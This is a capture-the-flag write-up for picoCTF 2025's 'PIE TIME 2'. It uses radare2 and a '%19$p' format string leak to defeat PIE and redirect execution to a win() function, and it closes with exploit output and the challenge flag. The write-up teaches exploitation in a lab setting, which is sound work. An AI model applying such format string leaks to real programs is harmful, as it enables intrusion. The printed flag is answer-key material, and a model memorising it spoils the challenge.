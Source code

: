 # PIE TIME 2

At this time, the program doesn't expose the address of any functions.
However, since the `call_functions` function print the input directly, I can leak the address of some functions with format string attack.
```c
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);
  ...

}
```

I analyzed at first which position any useful function address is.
```
$ r2 -d -A vuln
> pdf @ sym.call_functions
...
0x55c3e254d306      e855feffff     call sym.imp.fgets      ; char *fgets(char *s, int size, FILE *stream)
0x55c3e254d30b      488d45b0       lea rax, [var_50h]
0x55c3e254d30f      4889c7         mov rdi, rax
0x55c3e254d312      b800000000     mov eax, 0
0x55c3e254d317      e824feffff     call sym.imp.printf     ; int printf(const char *format)
...

> db 0x55c3e254d317
> dc
Enter your name:hoge
INFO: hit breakpoint at: 0x55c3e254d317
```

After the program hit the breakpoint after I input `hoge`, I saw the stack.
In the `0x7fffa94e6f48` address, there is the address of the `main` function, which is the address after calling the `call_functions` function.
```
> pxr @ rsp
...
[0x55c3e254d317]> pxr @ rsp
0x7fffa94e6ee0 0x00007f2edd4f4ff0   .OO..... @ rsp
0x7fffa94e6ee8 ..[ null bytes ]..   00000000 
0x7fffa94e6ef0 0x0000000a65676f68   hoge.... @ rdi 44650950504
0x7fffa94e6ef8 0x00007f2edd398599   ..9.....
0x7fffa94e6f00 0x00007f2edd4f75c0   .uO.....
0x7fffa94e6f08 0x00007f2edd38f030   0.8.....
0x7fffa94e6f10 0x0000000000001000   ........ 4096
0x7fffa94e6f18 0x00007f2edd527000   .pR..... [vdso] library R 0x3010102464c457f
0x7fffa94e6f20 ..[ null bytes ]..   00000000 
0x7fffa94e6f28 0x00007fffa94e7068   hpN..... [stack] rbx stack R W 0x7fffa94e857a
0x7fffa94e6f30 0x00007fffa94e6f50   PoN..... [stack] stack R W 0x1
0x7fffa94e6f38 0x2cebdd0b1eb42600   .&.....,
0x7fffa94e6f40 0x00007fffa94e6f50   PoN..... @ rbp [stack] stack R W 0x1
0x7fffa94e6f48 0x000055c3e254d441   A.T..U.. /home/robot/Documents/picoctf/2025/pietime2/vuln .text main program R X 'mov eax, 0' 'vuln'
...

> pdf @ main
...
0x55c3e254d420      b900000000     mov ecx, 0
0x55c3e254d425      ba02000000     mov edx, 2
0x55c3e254d42a      be00000000     mov esi, 0
0x55c3e254d42f      4889c7         mov rdi, rax
0x55c3e254d432      e849fdffff     call sym.imp.setvbuf    ; int setvbuf(FILE*stream, char *buf, int mode, size_t size)                                                                                                     
0x55c3e254d437      b800000000     mov eax, 0
0x55c3e254d43c      e886feffff     call sym.call_functions
0x55c3e254d441      b800000000     mov eax, 0
...
```

The address of the input is at the 8th position(`0x2070252041414141`).
```
$ ./vuln
Enter your name:AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0x5610fafd82a1 0xfbad2288 0x1 0x5610fafd82db 0x4 0x7fa42c67aff0 (nil) 0x2070252041414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7ffd000a7025 0x7ffdf705b740 0xf6c945a418e8b900 0x7ffdf705b740
```

The address of the `main` function after calling the `call_functions` function can be found at the 19th position.
```
(0x7fffa94e6f48-0x7fffa94e6ef0)/8 + 8 = 19

$ ./vuln
Enter your name:%19$p
0x557404e3d441
```

Then, I can calculate the address of the `win()` function.
```
0x557404e3d441-0x1441+0x136a
```

```
$ python exploit.py
[+] Opening connection to rescued-float.picoctf.net on port 53006: Done
[*] Leaked address: 0x5a6ba5888441
[*] Win address: 0x5a6ba588836a
[+] Receiving all data: Done (48B)
[*] Closed connection to rescued-float.picoctf.net port 53006
[*]  You won!
    picoCTF{p13_5h0u1dn'7_134k_e7fc8501}
```
